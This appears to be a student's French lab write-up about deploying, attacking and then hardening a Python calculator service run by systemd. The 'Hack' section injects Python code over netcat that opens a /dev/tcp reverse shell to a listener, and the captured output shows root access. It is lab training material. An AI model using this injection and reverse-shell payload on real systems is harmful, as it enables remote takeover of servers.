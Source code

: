 🌞 **Vous devez pouvoir utiliser l'application normalement :**

```console
$ journalctl -xe -u calculatrice
Mar 13 14:43:42 tp2 systemd[1]: Started Super serveur calculatrice.
░░ Subject: A start job for unit calculatrice.service has finished successfully
░░ Defined-By: systemd
░░ Support: https://wiki.rockylinux.org/rocky/support
░░ 
░░ A start job for unit calculatrice.service has finished successfully.
░░ 
░░ The job identifier is 5432.
```

## 3. Hack

🌞 **Hack l'application**

```console
$ nc 10.1.1.129 13337
Hello__import__("os").system("sh -i >& /dev/tcp/172.16.184.1/4545 0>&1")
0Hello
```

```console
$ nc -lnvp 4545
listening on [any] 4545 ...
connect to [172.16.184.1] from (UNKNOWN) [172.16.184.129] 52430
sh: cannot set terminal process group (3221): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# whoami
whoami
root
sh-5.1# ls /opt/calc.py
ls /opt/calc.py
/opt/calc.py
sh-5.1# exit
exit
exit
```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```console
$ ps -ef | grep calc
root        3238       1  0 14:50 ?        00:00:00 /usr/bin/python3 /opt/calc.py
rocky       3251    1368  0 14:53 pts/0    00:00:00 grep --color=auto calc
```

🌞 **Créer l'utilisateur `calculatrice`**
